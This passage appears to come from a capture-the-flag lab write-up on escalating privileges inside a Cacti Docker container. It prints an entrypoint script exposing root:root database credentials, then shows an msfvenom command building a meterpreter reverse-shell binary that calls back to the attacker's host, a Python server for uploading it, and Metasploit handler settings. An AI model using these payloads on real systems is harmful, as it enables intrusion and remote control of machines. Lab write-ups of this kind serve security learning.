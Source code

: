 What is inside `entrypoint.sh`?
```sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

We see the container connects to a `mysql` instance with the credentials `root:root`. The next step is to connect to this `mysql` instance to have a closer look if we can utilize the data in the database to elevate our privileges. Therefor we need to find out what host the script is connecting to. 

> As the docker instance is missing useful commands like `netstat`, `ip` and more we at first generate a `meterpreter`, upload it to the target to get a more stable and powerful access.

Generate a `meterpreter` instance
```bash
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.17 LPORT=8081 -f elf > meter
```

Upload `meterpreter` to target and execute it
On attacker machine
```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.17      yes       The listen address (an interface may be specified)
   LPORT  8081             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



```